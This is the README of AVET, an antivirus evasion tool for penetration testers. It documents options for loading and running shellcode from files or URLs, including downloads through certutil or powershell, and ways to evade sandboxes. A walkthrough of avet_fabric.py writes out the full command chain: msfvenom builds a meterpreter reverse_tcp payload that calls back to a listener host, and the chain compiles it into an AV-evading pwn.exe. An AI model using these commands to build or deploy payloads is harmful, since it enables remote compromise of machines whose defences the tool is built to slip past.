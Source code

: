 AntiVirus Evasion Tool
======================

AVET is an AntiVirus Evasion Tool, which was developed for making life easier for pentesters and for experimenting with antivirus evasion techniques, this version is for OSX.

For basics about antivirus evasion, AVET & more information have a look here: 
- https://govolution.wordpress.com/2018/08/07/paper-avet-blackhat-usa-arsenal-2018/
- https://govolution.wordpress.com/2017/06/11/avet-video/
- https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf
- https://deepsec.net/docs/Slides/2014/Why_Antivirus_Fails_-_Daniel_Sauder.pdf
- https://twitter.com/DanielX4v3r

What & Why:
- when running an exe file made with msfpayload & co, the exe file will often be recognized by the antivirus software
- avet is a antivirus evasion tool targeting windows machines with executable files
- assembly shellcodes can be used
- make_avet can be used for configuring the sourcecode
- with make_avet you can load ASCII encoded shellcodes from a textfile or from a webserver, further it is using an av evasion technique to avoid sandboxing and emulation
- call msf ASCII encoded shellcode as a parameter from cmd
- for ASCII encoding the shellcode the tool format.sh and sh_format are included

Installation
- this version was developed for running on OSX with metasploit and gcc installed
- install python3
	https://www.python.org/downloads/mac-osx/
- install gnureadline
	pip3 install gnureadline

Important Note
--------------
Not all techniques will evade every AV engine. If one technique or build script does not work please test another one.

How to use make_avet and build scripts
--------------------------------------
Compile if needed, for example if you use a 32 bit system:
```
$ gcc -o make_avet make_avet.c
```

The purpose of make_avet is to preconfigure a definition file (defs.h) so that the source code can be compiled in the next step. This way the payload will be encoded as ASCII payload or with encoders from metasploit. You hardly can beat shikata-ga-nai.

Let's have a look at the options from make_avet, examples will be given below:
```
-l load and exec shellcode from given file, call is with mytrojan.exe myshellcode.bin
   when called with -E call with mytrojan.exe shellcode.txt
-f compile shellcode into .exe, needs filename of shellcode file
-u load and exec shellcode from url using internet explorer (url is compiled into executable)
-d download the shellcode file using different techniques
   -d sock -> for downloading a raw shellcode via http in memory and exec (no overhead, use socket)
      usage example: pwn.exe http://yourserver/yourpayload.bin
   -d certutil -> use certutil.exe for downloading the file
   -d powershell -> use powershell for downloading the file
      usage of -d certutil/powershell in combination with -f
      for executing the raw shellcode after downloading
      call: pwn thepayload.bin http://server/thepayload.bin
-E use avets ASCII encryption, often do not has to be used
   Can be used with -l
-F use fopen sandbox evasion
-k "killswitch" sandbox evasion with gethostbyname
-X compile for 64 bit
-p print debug information
-q quiet mode (hide console window)
-h help
```

Of course it is possible to run all commands step by step from command line. But it is strongly recommended to use build scripts or the avet_fabric.py.

The build scripts themselves are written so as they have to be called from within the avet directory:
```
root@kalidan:~/tools/avet# ./build/build_win32_meterpreter_rev_https_20xshikata.sh
```

Examples
--------
Here are the commented examples for building the .exe files from the build directory. 

```

```

avet_fabric.py
--------------
avet_fabric is an assistant, that loads all build scripts in the build directory (name has to be build*.sh) and then lets the user edit the settings line by line. This is under huge development.

Example:
```
# python3 avet_fabric.py 

                       .|        ,       +
             *         | |      ((             *
                       |'|       `    ._____
         +     ___    |  |   *        |.   |' .---"|
       _    .-'   '-. |  |     .--'|  ||   | _|    |
    .-'|  _.|  |    ||   '-__  |   |  |    ||      |
    |' | |.    |    ||       | |   |  |    ||      |
 ___|  '-'     '    ""       '-'   '-.'    '`      |____
jgs~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

AVET Fabric by Daniel Sauder

avet_fabric.py is an assistant for building exe files with shellcode payloads for targeted attacks and antivirus evasion.

0: build_win32_meterpreter_rev_https_shikata_loadfile.sh
1: build_win32_meterpreter_rev_https_shikata_fopen.sh
2: build_win32_meterpreter_rev_https_shikata_load_ie_debug.sh
3: build_win32_shell_rev_tcp_shikata_fopen_kaspersky.sh
4: build_win32_meterpreter_rev_https_20xshikata.sh
5: build_win32_meterpreter_rev_https_shikata_load_ie.sh
6: build_win64_meterpreter_rev_tcp.sh
...
Input number of the script you want use and hit enter: 6

Now you can edit the build script line by line.

simple example script for building the .exe file
$ . build/global_win64.sh
make meterpreter reverse payload
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
format the shellcode for make_avet
$ ./format.sh sc.txt > scclean.txt && rm sc.txt
call make_avet, compile
$ ./make_avet -f scclean.txt -X -E
$ $win64_compiler -o pwn.exe avet.c
cleanup
$ rm scclean.txt && echo "" > defs.h

The following commands will be executed:
#/bin/bash
. build/global_win64.sh
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
./format.sh sc.txt > scclean.txt && rm sc.txt
./make_avet -f scclean.txt -X -E
$win64_compiler -o pwn.exe avet.c
rm scclean.txt && echo "" > defs.h

Press enter to continue.

Building the output file...

Please stand by...

The output file should be placed in the current directory.

Bye...
```


Comparison of Antivirus Evasion tools:
http://dione.lib.unipi.gr/xmlui/bitstream/handle/unipi/11232/Kalogranis_mte1512.pdf
